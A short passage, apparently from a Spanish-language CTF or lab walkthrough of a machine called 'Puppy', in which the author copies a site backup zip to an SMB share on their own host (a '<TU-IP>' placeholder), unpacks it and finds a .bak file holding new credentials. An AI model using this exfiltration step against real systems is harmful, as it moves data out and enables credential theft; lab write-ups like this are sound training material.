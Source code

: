 ```powershell
copy C:\Backups\site-backup-2024-12-30.zip \\<TU-IP>\share\
```

![alt text](../../image/puppy24.png)

Ya con el archivo enviado a mi maquina local descomprimo el archivo y me da una carpeta de nombre puppy.

![alt text](../../image/puppy25.png)

![alt text](../../image/puppy26.png)

Al entrar en la carpeta vemos sub-carpetas y un archivo bak, accedo y tengo nuevas credenciales.
